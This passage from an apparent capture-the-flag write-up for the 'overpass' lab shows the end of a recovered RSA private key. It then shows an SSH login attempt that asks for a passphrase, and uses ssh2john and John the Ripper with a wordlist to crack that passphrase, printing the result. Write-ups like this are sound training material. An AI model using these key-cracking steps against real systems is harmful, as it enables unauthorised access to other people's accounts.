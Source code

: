 ```
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```

## Logging In
I try to log in using the rsa private key, but it looks like there's a passphrase on the key.

```
┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ ssh -i id_rsa james@10.10.34.118 
The authenticity of host '10.10.34.118 (10.10.34.118)' can't be established.
ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:67: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.34.118' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

We can use `ssh2john` to generate a hash that we can then crack later with JohnTheRipper. 

```
┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ ssh2john id_rsa > hash.txt

┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2025-06-03 18:52) 16.66g/s 222800p/s 222800c/s 222800C/s pink25..jackets
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
